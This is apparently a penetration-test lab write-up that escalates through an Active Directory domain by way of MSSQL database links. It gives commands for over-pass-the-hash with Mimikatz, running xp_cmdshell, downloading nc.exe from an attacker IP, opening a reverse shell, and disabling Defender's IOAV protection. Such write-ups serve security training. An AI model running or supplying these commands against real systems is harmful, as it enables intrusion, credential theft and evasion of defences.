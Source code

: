## Step to compromise
Enumerating the domain, we can see there is MSSQL instance running and a serviceprincipalname set 
for devsqladmin, we successfully kerberoasted the user, but failed to crack the hash. Running 
PowerUpSQL2 will allow us to enumerate the MSSQL Instance further. Running the following command 
will give us information about the SQL Instance:
```
Import-Module .\PowerUpSQL.ps1
Get-SQLInstanceDomain
```
Still using PowerUpSQL we look to see if there are any database links which will allow us to execute 
stored procedures.
```
Get-SQLServerLink -Instance [instance] -Verbose
Get-SQLServerLinkCrawl -Instance [instance] -Verbose
```
We can see in the verbose output that although we successfully connected to the Instance as ap 
the IsSysAdmin:0 means that we will not be allowed to enable xp_cmdshell. Luckily during enumeration 
of our USER machine, we acquired the NTLM hash of reportuser. Using Over pass the hash method we 
can get a powershell prompt in the context of reportuser.
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:reportuser /domain:[domain] /ntlm:[hash] /run:powershell.exe"'
```
We re-run our PowerUpSQL commands, and can see that reportuser has IsSysAdmin:1, allowing us to 
enable xp_cmdshell and successfully get a reverse shell
```
Get-SQLServerLinkCrawl -Instance [instance] -verbose
```
Now we can try running Queries to get code execution, we test with running whoami and can see that 
we are running as user\admin.
```
Get-SQLServerLinkCrawl -Instance [instance] -Query 'exec master..xp_cmdshell "whoami"'
```
Now let’s try to upload nc.exe to the C:\Windows\Temp folder and execute it to give us a reverse shell 
as devsqladmin
```
Get-SQLServerLinkCrawl -Instance [instance] -Query 
'exec master..xp_cmdshell "powershell iex (New-Object 
Net.WebClient).DownloadFile(''http://[ip]/nc.exe'',''C:\Windows\Temp\
nc.exe'')"'
```
After nc.exe is successfully uploaded we can run the following command to execute it and send us 
reverse shell on port 9001 and running cmd.exe
```
Get-SQLServerLinkCrawl -Instance [instance] -Query 
'exec master..xp_cmdshell "C:\Windows\Temp\nc.exe -e cmd [ip] 9001"'
```
Using the USER machine, we listen on port 9001 and successfully get a shell as user\devsqladmin
```
nc.exe -lnvp 9001
```
Enumerating DEVSRV shows us that devsqladmin is a local administrator. We add the AD user to 
the Local Administrators and Remote Desktop Users group, so that we can use PSRemoting to execute 
locally loaded functions such as Invoke-Mimikatz on the remote machine. To do this we first 
DisableIOAVProtection so that we can easily run Mimikatz.
```
$sess = New-PSSession -ComputerName [computername]
Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection 
$true} -Session $sess
```
Now we can locally load the function Invoke-Mimikatz
```
Import-Module .\Invoke-Mimikatz.ps1
Invoke-command -ScriptBlock ${function:Invoke-Mimikatz} -Session $sess
```
